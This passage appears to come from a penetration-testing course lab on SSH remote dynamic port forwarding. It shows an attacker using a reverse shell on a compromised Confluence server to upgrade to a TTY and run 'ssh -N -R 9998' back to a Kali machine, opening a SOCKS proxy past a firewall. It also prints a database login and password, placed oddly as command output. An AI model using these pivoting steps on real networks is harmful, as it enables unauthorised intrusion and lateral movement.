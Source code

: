 We can now start probing port 2345 on the loopback interface of our Kali machine, as though we're probing the PostgreSQL database port on PGDATABASE01 directly. On our Kali machine, we will use psql, passing 127.0.0.1 as the host (-h), 2345 as the port (-p), and using the database credentials of the postgres user (-U) we found earlier on CONFLUENCE01.

```bash
kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres
postgres=# \l
D@t4basePassw0rd!
```

### SSH Remote Dynamic Port Forwarding

With remote port forwarding, we were able to forward packets to one socket per SSH connection. However, just as we found with local port forwarding, this single-socket-per-connection limitation can slow us down. We often want more flexibility when attacking networks, especially in the enumeration stages.

Luckily, remote dynamic port forwarding can provide this flexibility. Just as the name suggests, remote dynamic port forwarding creates a dynamic port forward in the remote configuration. The SOCKS proxy port is bound to the SSH server, and traffic is forwarded from the SSH client.

Remote dynamic port forwarding is just another instance of dynamic port forwarding, so we gain all the flexibility of traditional dynamic port forwarding alongside the benefits of the remote configuration. We are able to connect to any port on any host that CONFLUENCE01 has access to by passing SOCKS-formatted packets through the SOCKS proxy port that is bound on our Kali machine.

Remote dynamic port forwarding has only been available since October 2017's OpenSSH 7.6. Despite this, only the OpenSSH client needs to be version 7.6 or above to use it - the server version doesn't matter.

Let extend our scenario again. This time we find a Windows server (MULTISERVER03) on the DMZ network. The firewall prevents us from connecting to any port on MULTISERVER03, or any port other than TCP/8090 on CONFLUENCE01 from our Kali machine. But we can SSH out from CONFLUENCE01 to our Kali machine, then create a remote dynamic port forward so we can start enumerating MULTISERVER03 from Kali.

The SSH session is initiated from CONFLUENCE01, connecting to the Kali machine, which is running an SSH server. The SOCKS proxy port is then bound to the Kali machine on TCP/9998. Packets sent to that port will be pushed back through the SSH tunnel to CONFLUENCE01, where they will be forwarded based on where they're addressed - in this case, MULTISERVER03.

Once we have a reverse shell from CONFLUENCE01, have spawned a TTY shell within it, and have enabled SSH on our Kali machine, we can start crafting the remote dynamic port forwarding command.

The remote dynamic port forwarding command is relatively simple, although (slightly confusingly) it uses the same -R option as classic remote port forwarding. The difference is that when we want to create a remote dynamic port forward, we pass only one socket: the socket we want to listen on the SSH server. We don't even need to specify an IP address; if we just pass a port, it will be bound to the loopback interface of the SSH server by default.

To bind the SOCKS proxy to port 9998 on the loopback interface of our Kali machine, we simply specify -R 9998 to the SSH command we run on CONFLUENCE01. We'll also pass the -N flag to prevent a shell from being opened.

```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'

confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4
```

